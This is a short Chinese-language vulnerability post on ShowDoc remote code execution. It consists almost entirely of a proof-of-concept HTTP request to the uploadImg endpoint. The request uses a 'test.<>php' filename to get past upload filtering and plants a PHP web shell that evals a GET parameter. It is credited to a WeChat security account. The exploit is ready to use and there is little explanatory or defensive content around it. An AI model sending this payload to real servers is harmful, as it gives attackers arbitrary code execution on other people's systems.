

# ShowDoc 远程代码执行漏洞
Poc：
```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 262

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php echo 'vuln_test';@eval($_GET[zxkf])?>
----------------------------921378126371623762173617--
```



 [@bgbing安全](https://mp.weixin.qq.com/s/oPhV-EmKZEDAxyZm4HuzUA)